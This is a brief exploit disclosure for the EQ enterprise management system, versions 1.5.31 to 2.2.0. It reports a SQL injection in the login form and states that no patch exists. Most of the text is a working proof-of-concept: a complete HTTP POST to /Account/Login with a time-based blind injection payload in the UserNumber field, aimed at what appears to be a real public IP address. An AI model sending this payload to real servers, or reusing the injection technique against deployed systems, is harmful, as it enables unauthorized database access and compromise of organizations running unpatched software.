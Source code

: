 # EQ
Exploit Title:EQ企业管理系统

Version:EQ v1.5.31 to v2.2.0

Date:December 5, 2022

Exploit Author:TLF

analysis report: EQ企业管理系统 v1.5.31 to v2.2.0 was discovered to contain a SQL injection
poc
POST /Account/Login HTTP/1.1

Host: 121.8.146.131

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, /; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://121.8.146.131
Connection: close
Referer: http://121.8.146.131/Account/Login
Cookie: ASP.NET_SessionId=v2svw4yucv1wxfah1zvwsyxy
UserNumber=admin';WAITFOR DELAY '0:0:5'--&UserPwd=123456&ServerDB=EQ&RememberPwd=false&UserPwd=123456&ServerDB=EQ&RememberPwd=false

Patches:None
